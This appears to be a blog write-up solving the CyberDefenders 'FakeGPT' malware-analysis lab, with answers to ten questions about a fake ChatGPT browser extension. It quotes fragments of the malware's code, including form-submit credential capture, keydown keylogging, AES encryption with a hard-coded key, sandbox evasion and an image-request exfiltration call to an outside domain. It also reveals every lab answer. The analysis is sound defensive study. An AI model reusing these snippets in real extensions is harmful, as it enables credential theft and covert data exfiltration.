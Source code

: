 ```yaml
---
author: Ricard Alcaraz
title: FakeGPT Lab - CyberDefenders
tags:
  - Cybersecurity
  - Blue Team
  - CyberDefenders
  - Malware Analysis
languages:
  - javascript
  - cyberchef
image:
  url: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
  alt: fake gpt image
description: My notes solving FakeGPT Lab - CyberDefenders
pubDate: 2025-08-27T17:47:00.000+02:00
heroImage: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
---
```

## Scenario
Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

Your task is to perform a thorough analysis of this extension identify its malicious components.

## Documents Provided
- app.js
- crypto.js
- img.GIF
- loader.js
- manifest.json
- ui.html

## Q1: Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

We have several files to check, the ones I looked at first where the ones that could potentially have some sort of obscure target URLs.
Looking at app.js I found this:
```javascript
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
When I saw the "==" at the end of the string I thought about one particular encoding, I used CyberChef and the result was `www.facebook.com`, so we just found the encoding method.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Base64
  </div>
</details>

## Q2: Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

I found it in the previous question by decoding the Base64 string.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    www.facebook.com
  </div>
</details>

 ## Q3: Which type of HTML element is utilized by the extension to send stolen data?

Here I was looking for for something related to sending data, it was not hard since the functions have a good naming. We can take a look at the function `sendToServer` and we will find the element used to send data.
```javascript
function sendToServer(encryptedData) {
  var img = new Image();
  img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
  document.body.appendChild(img);
}
```

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    &#60;img>
  </div>
</details>

## Q4: What is the first specific condition in the code that triggers the extension to deactivate itself?

Now we should check the other `.js` files, because `app.js` doesn't seem to have anything related. Checking `loader.js` we can see again a little help from the developer.

```javascript
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
  alert("Virtual environment detected. Extension will disable itself.");
  chrome.runtime.onMessage.addListener(() => { return false; });
}
```
This alert explains that it will disable itself, if the condition is fullfilled. The condition that has to be fullfilled is one or the other separated by the or "||", in this case the question asks for the first condition.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    navigator.plugins.length === 0
  </div>
</details>

## Q5: Which event does the extension capture to track user input submitted through forms?

I had to comeback to `app.js`, now looking for an event and a form. And I found this part:
```javascript
document.addEventListener('submit', function(event) {
  let form = event.target;
  let formData = new FormData(form);
  let username = formData.get('username') || formData.get('email');
  let password = formData.get('password');
  ...
```
The event that the extension captures is `submit` to track the user input through the form, that has two inputs, an user (or email) and a password, and if both are filled it will call the function `exfiltrateCredentials` with both parameters.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    submit
  </div>
</details>

## Q6: Which API or method does the extension use to capture and monitor user keystrokes?

In the same file `app.js` just after the section of the code I previously mentioned we can see another event capture:
```javascript
document.addEventListener('keydown', function(event) {
  var key = event.key;
  exfiltrateData('keystroke', key);
});
```
In this case a `keydown` event that calls to the function `exfiltrateData`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    keydown
  </div>
</details>

## Q7: What is the domain where the extension transmits the exfiltrated data?

We already know this information from the question **Q3** where I shared the piece of code of the function `sendToServer`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Mo.Elshaheedy.com
  </div>
</details>

## Q8: Which function in the code is used to exfiltrate user credentials, including the username and password?

Also I mentioned this function in the **Q5** so coming back to that piece of code will give us the information, care with the final ";" maybe in JS is not needed but it is for the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    exfiltrateCredentials(username, password);
  </div>
</details>

## Q9: Which encryption algorithm is applied to secure the data before sending?

Now, we should check for anything related to encryption algorithms, in the same file we can see a function with the name `encryptPayload` which seems related to the question, taking a look at it it uses the library `CryptoJS`, and now we can check where the `.encrypt()` is used. In this case we can see this:
```javascript
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```
So the encryption algorithm is AES, and also we can see that is using custom key and IV, where the key is `SuperSecretKey123` and a randomly generated IV.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    AES
  </div>
</details>

## Q10: What does the extension access to store or manipulate session-related data and authentication information?

We have to take a look to another file to get this one, in this case it's interesting to take a look at `manifest.json` in this configuration file we can see a parameter about the `permissions`:
```json
"permissions": [
  "tabs",
  "http://*/*",
  "https://*/*",
  "storage",
  "webRequest",
  "webRequestBlocking",
  "cookies"
  ]
```

And one that seems related to the question is the value which is a session-related data and authentication information, so this is the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    cookies
  </div>
</details>

